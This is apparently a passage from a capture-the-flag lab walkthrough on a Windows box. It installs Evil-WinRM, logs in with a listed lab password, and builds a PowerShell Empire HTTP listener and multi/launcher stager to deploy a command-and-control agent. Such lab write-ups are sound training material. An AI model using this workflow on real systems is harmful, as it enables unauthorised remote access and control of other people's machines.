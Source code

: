 1.  `git clone [https://github.com/Hackplayers/evil-winrm.git](https://github.com/Hackplayers/evil-winrm.git)`
2.  `cd evil-winrm`
3.  `gem install evil-winrm`

**Task 3** : Windows Remote Management (WinRM)

Windows Remote Management (WinRM) can be used to login to a user-level account. A few methods exist to deploy an [**Empire**](https://github.com/BC-SECURITY/Empire) agent, we recommend using [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm) to connect to the target box and then drop-in a **multi/launcher** to **Evil-WinRM** session. (We will go over how to build the launcher in the next few tasks).

![](https://cdn-images-1.medium.com/max/800/0*MXfNu2yRsK_MKreZ.jpg)

_Connection request using Evil-WinRM_

1.  `evil-winrm -i <IP_ADDRESS> -u <USERNAME>`

**Login**: _Sam_

**Password**: _azsxdcAZSXDCazsxdc_

**Task 4** : Launch Empire Agent

![](https://cdn-images-1.medium.com/max/800/0*-8IYvj03XB0JgdJZ.jpg)

To create an Empire listener, run the following:

1.  `uselistener http`
2.  `set Host <Host IP>`
3.  `set Port <Port Number>`
4.  `execute`

![](https://cdn-images-1.medium.com/max/800/0*3A-5bxmq9wFPxQlq.jpg)

_Setting up an HTTP listener in Empire_

Return to the main menu by typing `main` and create an Empire stage:

1.  `usestager multi/launcher`
2.  `set Listener http`
3.  `execute`

![](https://cdn-images-1.medium.com/max/800/0*jBEzRU1Gpc24dM-5.jpg)

_Generating a Multi/Launcher Stager in Empire_

**_Note: Because of this being a walkthrough box on using Invoke-Printdemon, we have disabled Windows Defender, and there is no need to worry about obfuscation._**

If you want to learn more about Empire, please check out the [**PS Empire room**](https://tryhackme.com/room/rppsempire) **or the** [**BC Security blog**](https://www.bc-security.org/blog/) for more information.

**Task 5** : Deploy an Agent

**Evil-WinRM** provides access to a PowerShell prompt for launching commands. This gives a few different options for delivering your payload **(e.g., bat, exe, wget)**. You can choose whichever one you want, otherwise, the simplest solution is to launch the one-liner directly in the **Evil-WinRM** window.
